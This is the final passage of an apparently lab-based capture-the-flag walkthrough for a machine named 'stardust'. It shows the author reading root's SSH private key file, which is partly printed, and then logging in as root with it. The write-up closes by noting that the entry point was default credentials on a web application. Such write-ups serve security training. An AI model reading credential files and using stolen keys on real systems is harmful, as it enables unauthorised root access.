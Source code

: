 We see that the root's home directory contained the root's flag. Also,  in a real-world assessment, we will be hunting instead for the SSH private key of the root user. This key can be found in the .ssh directory and we can use it to log in as root as shown below.

```bash
tally@stardust:/tmp/root$ cat .ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAypp9Oz2A+JVbFJjgtC+idEffahpdhumGR9jkHmhMffGCerTmXnuz
<SNIP>
tFsU7qe68sL5VnMWNiCVgHQ4FKqYBxzDRloZ4OJ1KXSiOClXy5N3FFHovcTewhxwJ1YoMa
14kVDKwVmq19UAAAARcm9vdEBzdGFyZHVzdC5obXYBAg==
-----END OPENSSH PRIVATE KEY-----

tally@stardust:/tmp$ ssh root@127.0.0.1 -i root/.ssh/id_rsa 
Linux stardust.hmv 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

<SNIP>
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 20 22:37:24 2024 from 127.0.0.1
root@stardust:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion
Congratulations! In this walkthrough, you have exploited default credentials on a web-based application to obtain a foothold on the target. This machine was designed to show how the usage of default credentials on web-based applications could seriously impact the security posture of an organisation. Thank you for following up on this walkthrough. 
